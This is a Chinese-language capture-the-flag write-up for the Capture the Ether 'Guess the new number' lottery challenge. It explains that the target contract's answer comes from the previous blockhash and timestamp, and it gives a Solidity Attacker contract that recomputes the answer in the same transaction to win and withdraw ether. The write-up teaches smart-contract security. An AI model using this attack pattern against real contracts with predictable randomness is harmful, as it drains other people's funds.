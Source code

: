 # Guess the new number

## 题目描述

[原题链接](https://capturetheether.com/challenges/lotteries/guess-the-new-number/)

原题目要求 GuessTheNewNumberChallenge 合约里面的余额为 0。而调用 guess 并输入答案，如果答案等于使用 blockhash 以及 timestamp 通过 hash 生成的数，即可转移 2 ether 出去。

## 运行

**安装 Foundry**

根据[Foundry 官方文档](https://getfoundry.sh/)配置好运行环境。

**运行测试**

```sh
$ cd WTF-CTF

$ forge test -C src/Capture_the_Ether/Lotteries/Guess_the_new_number -vvv
```

## 功能简述

在 GuessTheNewNumberChallenge 合约中，answer 的构造使用了当前链上的状态，包括前一个区块的 hash 以及当前 timestamp。既然answer 的构造规则是公开的，我们可以部署一个新合约 Attacker，使用新合约来计算 answer 并调用 guess，这样因为在这笔跨合约调用的 transaction 中，两个合约的环境变量 block hash 和 timestamp 都是相同的，因此能够得到相同的 answer。

这个是 Attacker 合约中 attack 的逻辑，我们先检查 msg.sender，防止被 MEV 黑吃黑了，然后我们调用 attack 时需要携带 1 ether，然后我们构造出 answer，并按照要求调用 GuessTheNewNumberChallenge 合约的 guess，然后通过 challenge.isComplete() 检查是否挑战成功，这样即使挑战失败，也不会损失 ether，最后将得到的余额返回给自己。

```solidity
    function attack(address _challenge) public payable {
        if (msg.sender != owner) revert NotOwner();
        if (msg.value != 1 ether) revert ValueErr();

        IGuessTheNewNumberChallenge challenge = IGuessTheNewNumberChallenge(_challenge);
        uint8 answer = uint8(uint(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        challenge.guess{value: 1 ether}(answer);
        
        if (!challenge.isComplete()) revert GuessErr();

        payable(msg.sender).transfer(address(this).balance);        
    }
```
